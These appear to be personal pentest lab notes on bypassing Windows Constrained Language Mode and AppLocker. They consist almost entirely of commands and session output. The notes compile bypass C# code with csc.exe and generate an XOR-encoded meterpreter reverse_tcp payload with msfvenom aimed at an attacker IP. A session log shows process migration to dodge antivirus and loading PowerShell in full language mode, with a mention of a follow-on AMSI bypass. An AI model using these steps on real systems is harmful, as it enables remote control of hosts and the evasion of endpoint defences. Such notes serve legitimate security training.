# clm and applocker bypass
```bash
c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:"C:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll" C:\users\dhanush\Desktop\bypassclm.cs
C:\Users\dhanush\Desktop>c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe c:\users\dhanush\Desktop\program3.cs
```

# ** HOST it in the Linux attacker machine**

# ✔️ ** Use only windows/meterpreter/reverse_tcp payload in this ,x64 payloads dont work with InstallUtil**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.130.136 LPORT=8999 -f raw > p.bin
python3 xorenc.py pa.bin
```

# **Have 2 sessions first create a process to migrate,and then use load powershell from meterpreter in the session ,dont spawn a new process**
```bash
execute -f notepad -H
Process 9252 created.
meterpreter > 
[*] 192.168.130.154 - Meterpreter session 10 closed.  Reason: Died

use 11
[-] Invalid module index: 11
msf6 exploit(multi/handler) > sessions -i 11
[*] Starting interaction with 11...

meterpreter > migrate 9252
[*] Migrating from 4952 to 9252...
[*] Migration completed successfully.
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > help

powershell_execute $ExecutionContext.SessionState.LanguageMode
[+] Command execution completed:
FullLanguage

meterpreter > powershell_shell
PS > $ExecutionContext.SessionState.LanguageMode
FullLanguage
PS > whoami
desktop-h4e2l8l\dhanush
PS > 
```

# ✔️ Commands
```bash
execute -f notepad -H #process gets killed because of antivirus
sessions -i 1 #New second Process
migrate 9525 #migrate to the newly created process from the last session
load powershell
powershell_execute $ExecutionContext.SessionState.LanguageMode
powershell_shell

#then we can run my amsi payload.
